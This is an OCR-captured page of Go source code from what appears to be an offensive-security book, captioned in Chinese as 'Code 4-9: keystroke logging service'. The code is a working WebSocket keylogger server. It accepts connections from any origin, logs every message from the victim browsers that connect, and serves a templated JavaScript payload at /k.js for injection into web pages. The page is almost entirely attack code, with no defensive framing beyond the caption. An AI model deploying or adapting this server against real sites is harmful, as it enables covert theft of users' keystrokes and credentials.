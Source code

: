 ```go
	upgrader = websocket.Upgrader{
		CheckOrigin: func(r *http.Request) bool { return true },
	}

	listenAddr string
	wsAddr     string
	jsTemplate *template.Template
)

func init() {
	flag.StringVar(&listenAddr, "listen-addr", "", "Address to listen on")
	flag.StringVar(&wsAddr, "ws-addr", "", "Address for WebSocket connection")
	flag.Parse()
	var err error
	jsTemplate, err = template.ParseFiles("logger.js")
	if err != nil {
		panic(err)
	}
}

func serveWS(w http.ResponseWriter, r *http.Request) {
	conn, err := upgrader.Upgrade(w, r, nil)
	if err != nil {
		http.Error(w, "", 500)
		return
	}
	defer conn.Close()
	fmt.Printf("Connection from %s\n", conn.RemoteAddr().String())
	for {
		_, msg, err := conn.ReadMessage()
		if err != nil {
			return
		}
		fmt.Printf("From %s: %s\n", conn.RemoteAddr().String(), string(msg))
	}
}

func serveFile(w http.ResponseWriter, r *http.Request) {
	w.Header().Set("Content-Type", "application/javascript")
	jsTemplate.Execute(w, wsAddr)
}

func main() {
	r := mux.NewRouter()
	r.HandleFunc("/ws", serveWS)
	r.HandleFunc("/k.js", serveFile)
	log.Fatal(http.ListenAndServe(":8080", r))
}
```

代码 4-9: 按键记录服务 (https://github.com/blackhat-go/bhg/ch-4/websocket_keylogger/main.go/)
